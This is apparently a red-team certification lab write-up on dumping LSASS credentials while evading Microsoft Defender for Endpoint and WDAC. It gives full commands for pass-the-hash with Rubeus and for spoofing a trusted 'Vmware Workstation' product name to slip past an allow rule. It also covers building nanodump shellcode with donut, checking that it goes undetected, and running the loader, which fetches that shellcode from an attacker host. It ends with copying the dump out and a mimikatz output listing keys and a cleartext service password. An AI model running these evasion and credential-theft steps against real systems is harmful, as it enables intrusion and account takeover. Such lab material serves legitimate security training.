CRTE - Certified Red Team Expert
LSASS Attack With MDE Bypass
Microsoft Defender for Endpoint (MDE) is a critical component of modern enterprise security, designed to detect, investigate, and respond to advanced threats. For Red Teams, bypassing MDE is often essential to simulate realistic attack scenarios and test an organization’s ability to defend against sophisticated adversaries. Below is a structured overview of the key topics and the importance of MDE bypass in Red Team operations.
How MDE Works and Why Bypassing It Matters
MDE employs a combination of signature-based detection, behavioral analysis, machine learning, and cloud-powered telemetry to identify malicious activity. It monitors processes, file modifications, network traffic, and user behavior to flag anomalies. For Red Teams, bypassing these mechanisms is not about "breaking" the tool but understanding its detection logic to avoid triggering alerts. This is crucial because real-world attackers constantly evolve their tactics to evade detection, and Red Teams must replicate this behavior to provide actionable insights into an organization’s defensive gaps.
Key Techniques for Bypassing MDE
- Obfuscation and Encryption:
Attackers often obfuscate malicious code or use encryption to hide payloads from static analysis. Tools like AMSI bypasses or custom script obfuscators (e.g., modifying PowerShell scripts) can evade signature-based detection. Red Teams use these methods to deliver payloads without raising immediate flags.
- Living-off-the-Land Binaries (LOLBins):
Leveraging legitimate system tools (e.g., PowerShell, WMI, or MS Office macros) helps avoid suspicion. For example, using rundll32.exe to execute malicious DLLs or abusing trusted processes for lateral movement allows Red Teams to blend into normal network activity.
- Process Injection and Memory Manipulation:
Techniques like Process Hollowing or Reflective DLL Injection execute code directly in memory, bypassing disk-based scans. MDE’s behavioral analysis might still detect anomalies here, so combining this with other tactics (e.g., timing delays or spoofing parent processes) is often necessary.
- Disabling or Degrading MDE:
Temporarily disabling MDE’s real-time protection via registry edits, stopping its services, or exploiting misconfigured exclusions can create a window for exploitation. However, this risks triggering alerts, so stealthy methods (e.g., disabling only specific sensors) are preferred.
- Abusing Trusted Certificates or Applications:
Signing malicious tools with stolen or forged certificates, or injecting code into trusted applications (e.g., browsers), helps bypass application whitelisting and reputation-based checks.
Why Bypassing MDE is Critical in Red Team Engagements
- Realistic Simulation of Advanced Threats:
Modern adversaries invest significant effort in evading EDR (Endpoint Detection and Response) solutions like MDE. If a Red Team cannot bypass these tools, the exercise fails to simulate real-world attack chains, leading to a false sense of security for the organization.
- Identifying Detection Gaps:
Successfully bypassing MDE highlights weaknesses in the organization’s monitoring rules, configuration, or response processes. For example, if MDE fails to detect a specific LOLBin abuse, defenders can update their detection logic or tighten process restrictions.
- Testing Incident Response (IR) Readiness:
Even if MDE eventually detects an attack, bypassing it temporarily tests the IR team’s ability to investigate delayed or subtle alerts. This reveals whether defenders rely solely on automated tools or actively hunt for anomalies.
- Validating Security Investments:
Organizations often assume that deploying MDE guarantees protection. Red Teams demonstrate whether additional controls (e.g., network segmentation, user training, or multi-factor authentication) are needed to mitigate risks that MDE alone cannot address.
Key Considerations
- Behavioral Detection: MDE relies heavily on behavior-based detection. Running commands in quick succession or performing unusual actions may trigger alerts. MDE maintains a profile for each user and will detect deviations from the norm.
- "Living off the Land": To avoid detection, using built-in tools and techniques such as
certutilfor certificate extraction andSMBfor file transfers can help attackers blend in. - Normal Activity: Behaving as a normal user and blending in with typical activity helps evade detection.
- Short Lifespan: EDR bypasses are often temporary, as vendors quickly release patches for known techniques.
- Detection vs. Block Mode: In the lab environment, MDE is run in "detect mode," meaning that malicious actions are logged but not blocked. In a production environment MDE might be configured to block detected actions.
- Noisy Commands: Commands like
whoami,hostname, andtasklistare often flagged by MDE. - Jitter: When scripting attacks, it is recommended that the attacker include a random sleep or "jitter" between requests.
Challenges and Ethical Considerations
Bypassing MDE is a cat-and-mouse game. Microsoft continuously updates its algorithms, cloud analytics, and threat intelligence, so techniques that work today may fail tomorrow. Red Teams must stay updated on the latest bypass methods while adhering to ethical boundaries—for example, avoiding destructive actions or unauthorized data access during engagements.
Final Takeaways
- Bypassing MDE is not about "winning": It’s about testing defenses, improving resilience, and aligning security posture with real-world threats.
- Context matters: The importance of bypassing MDE depends on the engagement’s scope. For example, a phishing simulation might not require full MDE evasion, but a full-chain attack simulation likely will.
- Collaboration is key: Red Teams should work with Blue Teams to turn bypass findings into actionable improvements, fostering a culture of continuous security enhancement.
By mastering MDE bypass techniques, Red Teams provide immense value to organizations, ensuring defenses are tested, refined, and ready to face evolving threats.
Enumerating MDE
We can enumerate if we do have MDE/EDR enabled on our target environment by executing Invoke-EDRChecker script.
Invoke-EDRChecker is a script in PowerShell that will check running processes, process metadata, Dlls loaded into your current process and the each DLLs metadata, common install directories, installed services, the registry and running drivers for the presence of known defensive products such as AV's, EDR's and logging tools.
This script can be loaded into your C2 server as well for example in PoshC2, place the script into your modules directory, load the module then run it. Note: this script is now included in PoshC2 so no need to manually add it.
The script also has capacity to perform checks against remote targets if you have the privileges to do so, these checks are presently limited however to process checking, common install directories and installed services.
Let’s start by elevating our CMD session as our target user and we will be using Rubeus.exe from memory for OpSec by requesting our target’s TGT.
Let’s start CMD with Administrator privilege.
Now let’s run our Argsplit.bat file to encode our argument asktgt.
ArgSplit.bat

Always remember that we do need to copy/paste the generated encoded into our CMD session.
Let’s now use Loader.exe to execute Rubeus.exe in the memory and request for jumpone TGT and open a new session as jumone user.
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args "%Pwn%" /user:jumpone /rc4:95c0e0ce52fd24b2a3ac0eb8a67c1d56 /opsec /force /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

In the command above, we use the /force flag because we are using /opsec flag with /rce4 instead of AES256 keys.
This command uses Loader.exe to execute Rubeus.exe in-memory with the goal of authenticating as the user jumpone by leveraging its RC4-HMAC key (95c0e0ce52fd24b2a3ac0eb8a67c1d56).
The process is stealthy (/opsec) and forces execution (/force) while creating a cmd.exe process in netonly mode to ensure only network authentication uses the supplied credentials.
The /ptt flag injects a Kerberos ticket directly, allowing immediate access to network resources as jumpone.
Now that we were able to leverage our session as jumpone, let’s check if our user has local privileges access on any host inside our target domain. We will achieve this task using Find-PSRemotingAdminAccess script.
Import-Module C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1Find-PSRemotingLocalAdminAccess -Domain us.techcorp.local -Verbose

We can see above that we do have Local Admin access into US-JUMP machine in us.techcorp.local domain.
I also did the same check using Find-LocalAdminAccess from PowerView module, but I did not get the same result. PowerView was not able to bring us a single machine where jumpone use has LocalAdmin access.

Check the several reasons why we do have this behaviour and we should always pay attention to that.
Key Differences
Find-PSRemotingLocalAdminAccess:- It specifically checks for local administrator access via PowerShell Remoting (WinRM).
- It requires WinRM to be enabled and properly configured on the target machines.
- If WinRM is blocked by a firewall or not enabled, the tool may not give accurate results or fail to connect.
Find-LocalAdminAccess(PowerView):
Now that we do know that we have Local Admin Access on US-JUMP machine with our user jumpone, let’s run Invoke-EDRChecker to enumerate MDE/EDR.
Import-Module .\Invoke-EDRChecker.ps1Invoke-EDRChecker -Remote -ComputerName 'US-Jump'

We can see above that our target machine has MDE enabled, it’s using Microsoft Windows Defender.
Let’s now access our target machine that we have Local Admin Access and we just did an MDE enumeration, using WinRS. Since we are already on a session with our user jumpone.
winrs -r:US-Jump cmd

We can see that we are inside our target host US-Jump. To avoid detection using commonly used lolbas such as whoami.exe, we can use the set username and set computername
command to enumerate our current user using environment variables.
Let’s now gather information about Windows Defender Application Control (WDAC) and Device Guard on our target host US-Jump. Let’s exit the target host back to our jumpone session and we will use WinRS to accomplish that task remotelly from our attacking host.
winrs -r:US-Jump "powershell Get-CimInstance -ClassName Win32_DeviceGuard -Namespace root\Microsoft\Windows\DeviceGuard"

- It checks local administrator access based on LDAP enumeration.
- This method does not rely on WinRM but instead queries group membership via domain enumeration.
- If WinRM isn't working but LDAP data is accessible, this method may yield results that differ from
Find-PSRemotingLocalAdminAccess.
Property Explanations
AvailableSecurityProperties:- This indicates the security properties available on the system.
- The numbers
{1, 3, 5, 7}map to the following security features: 1: Hypervisor-protected Code Integrity (HVCI) is supported.3: Secure Boot is enabled.5: DMA protection is enabled.7: Virtualization-based security (VBS) is available.CodeIntegrityPolicyEnforcementStatus:- This shows the enforcement status of Code Integrity policies.
2: The system is enforcing User Mode Code Integrity (UMCI) policies.InstanceIdentifier:- This is a unique identifier for this instance of the Device Guard configuration.
RequiredSecurityProperties:- These are the security properties required by the system configuration.
{0}here indicates that no specific security properties are being required by policies.SecurityServicesConfigured:- This lists the security services that are configured on the system.
{0}means that no specific security services have been configured.SecurityServicesRunning:- This lists the security services currently running on the system.
{0}means that no security services are actively running.UsermodeCodeIntegrityPolicyEnforcementStatus:- Similar to
CodeIntegrityPolicyEnforcementStatusbut specific to User Mode. 2: Indicates that User Mode policies are enforced.Version:- This shows the Device Guard version.
1.0means the system is running the initial or a basic implementation. VirtualizationBasedSecurityStatus:- Indicates the status of virtualization-based security (VBS):
0: VBS is not enabled.VirtualMachineIsolation:- Indicates whether the system is using Virtual Machine Isolation:
False: Virtual Machine Isolation is not in use.VirtualMachineIsolationProperties:- Lists any properties related to Virtual Machine Isolation.
{0}here suggests no additional properties are configured.PSComputerName:- The name of the system being queried, in this case,
US-Jump.
Summary of the Output
From the output, we can infer:
- Certain security features are supported (
HVCI,Secure Boot,DMA Protection, andVBS), but VBS is not currently enabled. - No specific security services are configured or actively running.
- Code Integrity policies are enforced for user mode, but the overall configuration is minimal.
- Virtual Machine Isolation is not enabled or configured.
Now that we have enumerated our WDAC configuration, let’s now attempt to copy and parse the WDAC config deployed on our target us-jump to find suitable bypasses and loopholes in the policy.
dir \\us-jumpX.US.TECHCORP.LOCAL\c$\Windows\System32\CodeIntegrity

We can see above that we were able to find 2 policies named DG.bin.p7 / SiPolicy.p7b inside the CodeIntegrity folder.
> To confirm a WDAC policy deployed via Group Policy, we need to check the specific GPO's GUID path in the SYSVOL directory on the domain controller. Locate the Registry.pol file in the "Machine" subdirectory, then use the Parse-PolFile cmdlet to analyze it. This will help identify where the WDAC policy is deployed (either locally or on a remote share) and provide additional details.
Let’s copy both binaries back to our attacking machine (our StudentVM)
copy \\us-jump.us.techcorp.local\c$\Windows\System32\CodeIntegrity\DG.bin.p7 C:\AD\Tools
On a new CMD using InvisiShell for a new PowerShell session let’s Invoke CIPolicyParser.ps1 script to parse the copied policy binary and convert it into .xml file.
Import-Module C:\AD\Tools\CIPolicyParser.ps1ConvertTo-CIPolicy -BinaryFilePath C:\AD\Tools\DG.bin.p7 -XmlFilePath C:\AD\Tools\DG.bin.xml

Let’s now analyze this new converted DG.bin.xml policy XML file. We should navigate to this rule quickly by searching for the string: "Vmware".
This can be done via Powershell or via GUI. Let’s analyze the file via PowerShell.
Get-Content -Path “C:\AD\Tools\FG.bin.xml | Where-Object {$_ -Match "Vmware"}

The WDAC Rule We Exploit:
We found a rule in the file DG.bin.xml that says: “Any program or DLL with the product name ‘Vmware Workstation’ is allowed to run.” .
This rule is supposed to trust VMware software, but we’re going to abuse it to run our own tools.
Our Plan:
- Edit Our Tools:
- We use a tool called
rceditto change the “Product Name” of our hacking files (like EXEs or DLLs) to “Vmware Workstation”. This tricks WDAC into thinking our tools are VMware, so it lets them run. - Bypass MDE:
- We use
mockingjay, a stealthy loader, to hide our attack code. - We pair it with
nanodump, which uses shellcode (raw code injected into memory) to dump LSASS without writing suspicious files. This avoids triggering MDE. - Fix Dependency Issues:
Why This Works:
- The target machine blocks even normal DLLs (like
msvcp140.dll) because of WDAC. So we edit those DLLs’ attributes too (withrcedit) and bundle them with our attack files. - WDAC only checks the file’s metadata (like the “Product Name” field). If we set it to “Vmware Workstation”, WDAC assumes our tools are safe.
- MDE struggles to detect
mockingjayandnanodumpbecause they work in memory and avoid common detection patterns.
Analogy:
Imagine WDAC is a bouncer who only checks ID badges. We forge badges labeled “Vmware Workstation” for ourselves and our tools. The bouncer lets us in, and once inside, we use hidden tools (mockingjay/nanodump) to quietly steal secrets (LSASS data) without alerting security (MDE).
Key Takeaway:
By editing file attributes to mimic trusted software and using stealthy techniques, we bypass both WDAC (rules) and MDE (detections). This lets us dump LSASS and extract sensitive data.
C:\AD\Tools\mockingjay\rcedit-x64.exe C:\AD\Tools\mockingjay\msvcp140.dll --set-version-string "ProductName" "Vmware Workstation" C:\AD\Tools\mockingjay\rcedit-x64.exe C:\AD\Tools\mockingjay\vcruntime140.dll --set-version-string "ProductName" "Vmware Workstation" C:\AD\Tools\mockingjay\rcedit-x64.exe C:\AD\Tools\mockingjay\vcruntime140_1.dll --set-version-string "ProductName" "Vmware Workstation" C:\AD\Tools\mockingjay\rcedit-x64.exe C:\AD\Tools\mockingjay\mockingjay.exe --set-version-string "ProductName" "Vmware Workstation" C:\AD\Tools\mockingjay\rcedit-x64.exe C:\AD\Tools\mockingjay\mscorlib.ni.dll --set-version-string "ProductName" "Vmware Workstation"

Now that we were able to modify our files, let’s compress them all.
Compress-Archive -Path C:\AD\Tools\mockingjay\msvcp140.dll,C:\AD\Tools\mockingjay\vcruntime140.dll,C:\AD\Tools\mockingjay\vcruntime140_1.dll,C:\AD\Tools\mockingjay\mockingjay.exe,C:\AD\Tools\mockingjay\mscorlib.ni.dll -DestinationPath "C:\AD\Tools\mockingjay\mockingjay.zip"

Now that we do have our modified mockingjay zipped. Let’s convert nanodump into compatible shellcode using donut along with the args: spoof-callstack (-sc), fork LSASS process before dumping (-f) and output the dump to a file named nano.dmp (--write) to make it dump LSASS in a covert way.
> NOTE: shellcode doesn't need to be edited using rcedit to bypass WDAC.C:\AD\Tools\mockingjay\donut.exe -f 1 -p " -sc -f --write nano.dmp" -i C:\AD\Tools\mockingjay\nanodump.x64.exe -o C:\AD\Tools\mockingjay\nano.bin

Amazing. we now have our mockingjay PoC and nano.bin shellcode created.
Before we use them, we can also use DefenderCheck.exe to check if both files are undetected by AV.
C:\AD\Tools\DefenderCheck.exe C:\AD\Tools\mockingjay\mockingjay.exeC:\AD\Tools\DefenderCheck.exe C:\AD\Tools\mockingjay\nano.bin

Amazing, none of them are detected by AV. Let’s now host our modified files on our attacking machines. Let’s make sure that Firewall is disabled so our hosting is not blocked.
I’ll be using HFS.exe to host the file. if you have python3 with http.server module as well if you have it on you attacking machine.
Now, back to our process running with jumpone privileges, let’s map a driver to upload our 2 files into the target.
Since we already have a session as user jumpone, we can simply user net use without passing the username to map drive x.
net use x: \\US-Jump\C$\Users\Public

Let’s now use XCOPY to transfer the file to our mapped x drive with has the path to C:\Users\Public on our target host US-Jump.
echo F | xcopy C:\AD\Tools\mockingjay\mockingjay.zip x:mockingjay.zip

The technique we used above to transfer file will avoid us using commonly abused binaries such as certutil for downloads, will result in a detection on MDE.
Let’s now connect to our target host US-Jump and check our 2 uploaded files.


Our 2 needed files or on the target in dir C:\Users\Public so let’s now extract the contents from mockingjay.zip archive using tar and we can then attempt to dump the LSASS Invoking the nano.bin.
tar -xf C:\Users\Public\mockingjay.zip

We have extracted all the files we need.
C:\Users\Public\mockingjay.exe 192.168.100.163 "/nano.bin"


An LSASS dump file is written called nano.dmp with an invalid signature since a normal LSASS dump on disk could trigger an MDE detection. We will now exfiltrate this dump file, restore and parse it for
credentials.
Let’s now get back to our attacking machine and exfiltrate the nano.dmp file using XCOPY and clear x mapped drive.
echo F | xcopy x:nano.dmp C:\AD\Tools\mockingjay\nano.dmp

net use x: /delete

We were able to copy nano.dmp back to our machine and also delete de x mapped drive. Finally let’s restore the exfiltrated dump signature and parse credentials using mimikatz.
C:\AD\Tools\mockingjay\restore_signature.exe C:\AD\Tools\mockingjay\nano.dmp

Now that we have restored the file, let’s extract the credential’s from the dump file. We will be using SafetyKatz to accomplish that. We should start by encoding our SafetyKatz argument (sekurlsa::minidump) with ArgSplit.bat file and copy/paste the encoded argument back to out CMD session.
ArgSplit.bat

We can now run SafetyKatz.exe in the memory using Loader.exe and request for all the LSASS credentials on the nano.dmp file.
`C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe -args "%Pwn% C:\AD\Tools\mockingjay\nano.dmp" "sekurlsa::ekeys" "exit"bash
mimikatz(commandline) # sekurlsa::minidump C:\AD\Tools\mockingjay\nano.dmp
Switch to MINIDUMP : 'C:\AD\Tools\mockingjay\nano.dmp'
mimikatz(commandline) # sekurlsa::ekeys
Opening : 'C:\AD\Tools\mockingjay\nano.dmp' file for minidump...
Authentication Id : 0 ; 37358928 (00000000:023a0d50)
Session : Interactive from 3
User Name : DWM-3
Domain : Window Manager
Logon Server : (null)
Logon Time : 7/21/2024 3:42:02 AM
SID : S-1-5-90-0-3
* Username : US-JUMP$
* Domain : us.techcorp.local
Password : @pEWg3"x?4vzWs$[ULrZOAL$@k:g4y@%S.`s5>z11>A>-pLnVFNT^]Bmsk/;4(gp),s'KD /^1e:>W'nz(s>gh)
* Key List :
aes256_hmac 59c2c002adcc552c74f1d521194aeecbfaff2be3c7ac662b41a5982caa6e4113
aes128_hmac 07f7247812bc59f6608f61bc06c91b29
rc4hmacnt abff11a76a2fa6de107f0ea8251005c5
rc4hmacold abff11a76a2fa6de107f0ea8251005c5
rc4_md4 abff11a76a2fa6de107f0ea8251005c5
rc4hmacnt_exp abff11a76a2fa6de107f0ea8251005c5
rc4hmacold_exp abff11a76a2fa6de107f0ea8251005c5
**Authentication Id : 0 ; 85522 (00000000:00014e12)
Session : Service from 0
User Name : appsvc
Domain : US
Logon Server : US-DC
Logon Time : 7/7/2024 2:08:19 AM
SID : S-1-5-21-210670787-2521448726-163245708-4601
* Username : appsvc
* Domain : US.TECHCORP.LOCAL
* Password : Us$rT0AccessDBwithImpersonation
* Key List :
aes256_hmac b4cb0430da8176ec6eae2002dfa86a8c6742e5a88448f1c2d6afc3781e114335
aes128_hmac 14284e4b83fdf58132aa2da8c1b49592
rc4hmacnt 1d49d390ac01d568f0ee9be82bb74d4c
rc4hmacold 1d49d390ac01d568f0ee9be82bb74d4c
rc4_md4 1d49d390ac01d568f0ee9be82bb74d4c
rc4hmacnt_exp 1d49d390ac01d568f0ee9be82bb74d4c
rc4hmacold_exp 1d49d390ac01d568f0ee9be82bb74d4c**
Authentication Id : 0 ; 24159 (00000000:00005e5f)
Session : Interactive from 1
User Name : UMFD-1
Domain : Font Driver Host
Logon Server : (null)
Logon Time : 7/7/2024 2:08:14 AM
SID : S-1-5-96-0-1
* Username : US-JUMP$
* Domain : us.techcorp.local
Password : @pEWg3"x?4vzWs$[ULrZOAL$@k:g4y@%S.`s5>z11>A>-pLnVFNT^]Bmsk/;4(gp),s'KD /^1e:>W'nz(s>gh)
* Key List :
aes256_hmac 59c2c002adcc552c74f1d521194aeecbfaff2be3c7ac662b41a5982caa6e4113
aes128_hmac 07f7247812bc59f6608f61bc06c91b29
rc4hmacnt abff11a76a2fa6de107f0ea8251005c5
rc4hmacold abff11a76a2fa6de107f0ea8251005c5
rc4_md4 abff11a76a2fa6de107f0ea8251005c5
rc4hmacnt_exp abff11a76a2fa6de107f0ea8251005c5
rc4hmacold_exp abff11a76a2fa6de107f0ea8251005c5
Authentication Id : 0 ; 24131 (00000000:00005e43)
Session : Interactive from 0
User Name : UMFD-0
Domain : Font Driver Host
Logon Server : (null)
Logon Time : 7/7/2024 2:08:14 AM
SID : S-1-5-96-0-0
* Username : US-JUMP$
* Domain : us.techcorp.local
Password : @pEWg3"x?4vzWs$[ULrZOAL$@k:g4y@%S.`s5>z11>A>-pLnVFNT^]Bmsk/;4(gp),s'KD /^1e:>W'nz(s>gh)
* Key List :
aes256_hmac 59c2c002adcc552c74f1d521194aeecbfaff2be3c7ac662b41a5982caa6e4113
aes128_hmac 07f7247812bc59f6608f61bc06c91b29
rc4hmacnt abff11a76a2fa6de107f0ea8251005c5
rc4hmacold abff11a76a2fa6de107f0ea8251005c5
rc4_md4 abff11a76a2fa6de107f0ea8251005c5
rc4hmacnt_exp abff11a76a2fa6de107f0ea8251005c5
rc4hmacold_exp abff11a76a2fa6de107f0ea8251005c5
